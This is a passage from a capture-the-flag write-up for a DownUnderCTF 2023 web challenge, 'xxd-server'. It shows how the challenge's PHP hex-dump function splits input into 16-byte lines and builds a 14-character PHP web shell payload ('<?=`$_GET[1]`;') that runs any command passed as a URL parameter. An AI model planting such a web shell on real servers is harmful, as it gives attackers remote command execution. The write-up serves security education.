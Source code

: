 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2023/images/Pasted%20image%2020230903194753.png)

Wait... What?? Why it's empty?

**I mean... We can test it locally:**
```php
<?php
function xxd(string $s): string {
    $out = '';
    $ctr = 0;
    foreach (str_split($s, 16) as $v) {
        $hex_string = implode(' ', str_split(bin2hex($v), 4));
        $ascii_string = '';
        foreach (str_split($v) as $c) {
            $ascii_string .= $c < ' ' || $c > '~' ? '.' : $c;
        }
        $out .= sprintf("%08x: %-40s %-16s\n", $ctr, $hex_string, $ascii_string);
        $ctr += 16;
    }
    return $out;
}

$output = xxd('<?php system("cat /flag") ?>');
echo $output;
?>
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/xxd-server)-[2023.09.03|19:50:16(HKT)]
└> php xxd.php
00000000: 3c3f 7068 7020 7379 7374 656d 2822 6361  <?php system("ca
00000010: 7420 2f66 6c61 6722 2920 3f3e            t /flag") ?>    
```

Oh! Do you remember the **16 characters chunk**? In here, we can see that **when the payload is greater than 16 characters**, function `xxd()` will split the payload with a newline character.

**Armed with above information, the payload must be less than 16 characters:**
```php
$payload = '<?=`$_GET[1]`;';
$output = xxd($payload);
echo "[+] xdd result:\n$output";
echo '[+] Payload length: ' . strlen($payload);
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/xxd-server)-[2023.09.03|19:56:30(HKT)]
└> php xxd.php
[+] xdd result:
00000000: 3c3f 3d60 245f 4745 545b 315d 3b60       <?=`$_GET[1]`;  
[+] Payload length: 14
```

**This payload is:**
- `<?=` - a PHP short `echo` tag, which is a short-hand to the more verbose `<?php echo`
- Backticks - the execution operators, which executes OS command and it's identical to [shell_exec()](https://www.php.net/manual/en/function.shell-exec.php)
- `$_GET[1]` - when GET parameter `1` is provided, it'll execute the command based on the value
